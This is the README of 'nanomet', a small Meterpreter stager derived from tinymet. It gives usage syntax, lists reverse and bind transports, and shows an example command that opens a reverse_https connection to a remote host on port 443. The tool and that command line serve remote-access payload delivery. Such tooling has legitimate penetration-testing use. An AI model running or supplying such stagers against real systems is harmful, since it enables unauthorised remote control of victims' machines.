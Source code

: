 nanomet
=======

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost
nanomet is tinymet modified to support compiling using mingw compilers.

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http\n"
* 2: reverse_https\n"
* 3: bind_tcp\n"

Example
========

nanomet.exe 2 host.com 443

will use reverse_https and connect to host.com:443


